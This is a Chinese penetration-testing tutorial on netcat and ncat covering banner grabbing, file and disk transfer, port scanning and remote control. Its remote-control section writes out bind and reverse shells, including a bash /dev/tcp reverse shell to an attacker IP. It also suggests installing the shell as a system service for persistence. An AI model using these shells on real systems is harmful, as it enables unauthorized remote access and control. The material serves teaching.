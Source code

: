 ```yaml
---
title: 工具 - netcat使用
categories:
- 渗透测试
tags:
- 渗透测试
- nc
abbrlink: 13625
date: 2020-03-15 15:35:40
---
```




# netcat使用


## 简介
- 侦听模式/传输模式
- 可以替代telent  / 获取banner信息
- 传输文本信息
- 传输文件/目录
- 加密传输文件
- 远程控制/木马
- 加密所有流量
- 流媒体服务器
- 远程克隆硬盘


## 基本用法
####  <font color=red>1. 实现telnet / banner</font>
```bash
# 题外话:追踪路由
mtr 114.114.114.114 

## nc作为客户端：
# 参数 -v  显示详细信息 
# 参数  -n  如果是域名,不进行域名解析(建议直接跟ip地址)
nc -nv 1.1.1.1 110   # 连接pop3服务器，可以看到banner信息（可以进行user登录[base64编码],输入指令）
nc -nv 1.1.1.1 25    # smtp服务器
nc -nv 1.1.1.1 80    # 探测80端口(都可进行交互的命令)

```

####  <font color=red>2.传输文本信息</font>
```bash
# 可以做聊天用
# 一台作为服务端    -l 监听, -p 端口
nc -l -p 4444
# 另一台作为客户端去连接服务端
nc -nv 1.1.1.1 4444

```
![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/nc_use.png)

###### 用途：
**远程电子取证** (原则:尽可能少修改被审计系统的状态，避免影响证据)
就可以用`nc`来操作:
我的电脑: `nc -l -p 3333`  监听
被审计系统:`ls -l | nc -nv 1.1.1.1 3333` 输出到我的电脑

我的电脑: `nc -l -p 3333 > ps.txt`   输出结果重定向到文件
被审计系统:`ps -ef | nc -nv 1.1.1.1 3333 -q 1`    参数-q: 输出完成之后过1秒就断开

题外话：`lsof` 查看已经打开的文件



####  <font color=red>3.传输文件/目录</font>
###### 传输文件
```bash
# 客户端向服务端传输  （正向） 
A： nc-lp 3333 > 1.mp4
B:  nc -nv 1.1.1.1 3333 < 1.mp4 -q 1
# 或者, 服务端向客户端传输文件  （反向）
A:  nc -q 1 -lp 3333 < a.mp4
B:  nc -nv 1.1.1.1 3333 > 2.mp4
```

###### 传输目录
```bash
# 正向(服务端先打包再传给客户端,注意小横线别遗漏)
A:  tar -cvf - music/ | nc -lp 3333 -q 1
B:  nc -nv 1.1.1.1 3333 | tar -xvf -     # 先接收再解包
```

###### 加密传文件
```bash
A： nc -lp 3333 | mcrypt --flush -Fbqd -a rijndael-256-m ecb > 1.mp4     # 接收，解密
B： mcrypt --fulsh -Fbq -a rijndael-256-m ecb < a.mp4 | nc 1.1.1.1 3333 -q 1   # 加密，传送
# 需要输入加密秘钥，解密秘钥
# 不是nc的加密功能，是操作系统的加密命令，可以自行安装
```

#### <font color=red>4.流媒体</font>
```bash
#把视频流输出到B端
A:  cat 1.mp4 | nc -lp 3333
B:  nc -nv 1.1.1.1 3333 | mplayer -vo x11 -cache 3000 -
#接收视频流，输出给指定播放器和缓存进行播放
```

#### <font color=red>5.端口扫描</font>
>以客户端角色
```bash
#并非擅长端口扫描
#参数 -z 扫描参数，只判断是否开放（默认tcp）
nc -nvz 1.1.1.1 1-65535
#参数 -u  扫描udp服务的端口 （不太准确）
nc -nvzu 1.1.1.1 1-1024
```

#### <font color=red>6.远程克隆硬盘</font>
**远程电子取证**，可以将目标服务器硬盘远程复制(`块`级别的备份,`磁盘磁道的状态原原本本的复制`)，或者内存(内存中运行的病毒进程)
```bash
A:  nc -lp 3333 | dd of=/dev/sda
B:  dd -if=/dev/sda | nc -nv 1.1.1.1 3333 -q 1
```

####  <font color=red>7.远程控制</font>
参数: -c 
**正向：**   目标机器作为服务端监听, 把bash传给我
```bash
A:  nc -lp 3333 -c bash   #目标机器
B:  nc 1.1.1.1 3333
```
**反向：**    我的机器作为服务端, 让目标机器作为客户端主动连接我(客户端把bash传给服务器端)
```bash
A:  nc -lvp 3333       
B:  nc 1.1.1.1 3333 -c bash    #目标机器

#假如nc不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
目标机器： bash -i >& /dev/tcp/192.168.41.133/2223 0>&1
攻击方： nc -lvvp 2223
```

>Note: Windows用户把bash改为cmd

> 反向连接用的多， 因为好多都限制进入的流量而不太多限制出去的流量(根据他允许的端口调整,比如dns)

> 长久维持会话： 写成脚本作为系统服务，让目标机器已启动就连接我



## ncat 命令
<font color=red> **nc缺陷：**</font>
- nc缺乏加密能力：是数据是明文传输（容易被别人嗅探）
- 缺乏身份验证能力：端口如果一直向外开放，容易被他人连接窃取当做肉鸡
- 不同系统/平台的nc参数功能不尽相同（自己 -h 查看帮助文档和测试）

<font color=red> **ncat 命令**</font>
是包含在nmap工具包中里面的一个东西(弥补了nc缺乏加密和身份验证的不足)

正向连接：
```bash
#先进行了秘钥交换和加密
#被控端(服务器端)   -allow允许连接的ip， 端口, ssl加密
A:  ncat -c bash -allow 192.168.1.20 -vnl 3333 --ssl
B:  ncat -nv 192.168.1.19 3333 --ssl      #攻击端
```

## 其他
... ...


